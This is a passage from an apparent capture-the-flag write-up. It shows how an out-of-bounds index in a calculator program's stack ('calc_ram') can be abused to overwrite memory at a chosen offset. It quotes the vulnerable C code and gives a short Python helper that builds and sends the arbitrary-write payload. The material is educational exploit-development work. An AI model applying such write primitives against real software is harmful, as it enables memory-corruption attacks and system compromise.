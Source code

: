 and the next instruction in case will erase operands array. In the end we will be left with:

|calc ram|
| :-----:|
|    .   |
|    .   |
|  300   |
|  300   |

|operands|
| :-----:|
|    .   |
|    .   |

Ha, that's amazing! Why? Well, we can extend our expression:
+300+800

Reading 800 will result in overwriting an address at offset 301 in calc_ram when placing num in calc_ram.

(again)
```c
[...]
// store the number in calc_ram
calc_ram[0] += 1;
calc_ram[calc_ram[0]] = num;
old_expr_buf_idx = expr_buf_idx + 1;
[...]
```

|calc ram|
| :-----:|
|  800   |
|  [...] |
|  300   |
|  301   |

|operands|
| :-----:|
|    .   |
|    .   |


Well, that's all we need. We just learned how to overwrite an address with a value of our choice!

```python
def i2b(i):
    return str(i).encode('utf-8')


def overwrite_addr_at_offset(offset, value):
    '''Overwrite addr at offset from calc_ram.
    Warning: it will mess the value at addr-1. If you need to overwrite
    multiple addresses then start from the biggest one.'''
    payload = b'+' + i2b(int((offset / 4) - 1)) + b'+' + i2b(value)
    p.sendline(payload)
    p.recvline()
```
